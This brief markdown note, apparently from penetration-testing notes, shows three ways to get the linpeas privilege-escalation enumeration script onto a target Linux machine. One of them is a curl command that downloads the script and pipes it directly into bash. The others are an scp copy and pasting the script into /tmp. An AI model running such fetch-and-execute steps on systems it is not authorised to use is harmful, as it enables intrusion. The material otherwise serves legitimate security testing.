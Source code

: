# linpeas

If `curl` works:

    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash

Otherwise if you're on same network:

    scp $USER@$IP:<path-to-linpeas> .

Last resort:

    cd /tmp
    nano linpeas.sh
    bash linpeas.sh